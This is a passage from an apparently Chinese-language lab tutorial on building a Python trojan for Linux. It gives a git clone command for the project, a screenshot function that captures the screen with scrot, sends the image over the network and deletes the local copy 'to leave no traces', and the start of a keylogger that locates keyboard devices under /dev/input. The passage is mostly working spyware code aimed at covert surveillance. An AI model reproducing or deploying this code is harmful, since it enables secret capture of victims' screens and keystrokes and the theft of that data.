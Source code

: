 可以看出这两个功能是完全不相关的，为了达到并行运行的效果，一半情况下采用
多线程技术，由于屏幕截图功能基于Python调用外部程序执行，运行期间会产生
一个子进程用来执行外部程序。所以我们直接采用`多进程`来实现。

## 五、实验步骤

你可以通过下面命令将代码下载到实验楼环境中，作为参照对比进行学习。
```
$ cd ~ 
$ git clone https://github.com/shiyanlou/trojan
$ cd trojan
```
### 5.1 屏幕截图
屏幕截图功能使用了Python调用外部程序技术，常用的库用`subprocess`、`os.system`,`commands`等，在这里我们使用了`commands`库，等多的用法可以[参考][commands] 这篇博客。为了让大家对程序理解更深入，请根据注释中的提示完成相应的扩展功能作为练习。代码详情见`screenshot.py`,该代码可以直接执行。

```python
from task import send_pic_task
def screen_shot(file_name='screen_shot', file_type='png'):
    """
    本程序未实现指定图片存储的路径，用户自行实现该扩展功能
    借助os.path.join函数
    """
    print u'3秒过后截图'
    time.sleep(3)
    # 调用外部程序
    # 因为服务端代代码也是运行在本机，如果名字一样。那么os.remove操作可能会导致
    # 在本地看不到效果
    ret = commands.getstatusoutput("scrot " + file_name + 'tmp.' + file_type)
    if ret[0] != 0:
        print u"图片类型不支持，请换用png jpg等常用格式"
        return
    # 读取图像的二进制文件，进行网络传输
    with open(file_name + 'tmp.' + file_type, "rb") as fp:
        send_pic_task(fp.read(), file_name, file_type)
    # 删除scrot生成的图片，作为黑客可不能留下痕迹啊
    os.remove(file_name + '.' + file_type)
    print u'发送屏幕截图完成'
```
### 5.2 键盘输入记录功能
主要按照[4.1](#jump)的流程来分析代码。

#### 5.2.1 找到所有的键盘设备
`/dev/input/`目录下存在一些`字符设备`文件，通过对这些文件的读写和控制，
可以访问实际设备，更多资料可以参考[这里][CHAR_NODE]。为了找到键盘设备，
需要了解linux的虚拟内存文件系统sysfs, 它挂在于/sys目录，它存储了系统内核和
设备驱动的实时信息，我们要找的键盘设备的信息可以在/sys/class/input目录
下找到，通过查看devices/name可以发现，该文件记录了设备的描述信息。更多关于设备文件和虚拟内存文件系统的知识可以参考[这里][devices_file]。
在linux终端下执行下列命令(如linux运行在docker环境中无/dev/input目录，跳过此步骤)![] [device_info]
通过代码实现筛选键盘设备(代码详见`keylogger/keyboard.py`):
```python
def device_filter(dev_content):
      """ dev_content显示了设备的名称和信息
          这里通过关键字查找的方式来判断该设备是否是键盘设备
      """
      # 如果设备信息出现中出现了keyboard这个关键词，那么就认为是键盘设备
      if "keyboard" in dev_content.lower():
          return True
      return False


  def find_keyboard_devices(device_filter_func):
      """
```

[CHAR_NODE]: http://blog.jobbole.com/86531/
[x11]: https://github.com/amoffat/pykeylogger
[commands]: http://blog.csdn.net/dbanote/article/details/9414133
[devices_file]: http://tieba.baidu.com/p/1853607526
[example]: http://7xqdxb.com1.z0.glb.clouddn.com/tickets7.png
[device_info]: 设备信息截图
[evdev_doc]: http://python-evdev.readthedocs.io/en/latest/tutorial.html#listing-accessible-event-devices
[status_manager]: 状态管理截图
[decode_input]: 原始数据和解码后的截图
[multiprocess]: http://python.jobbole.com/82045/
[result]: /images/result.png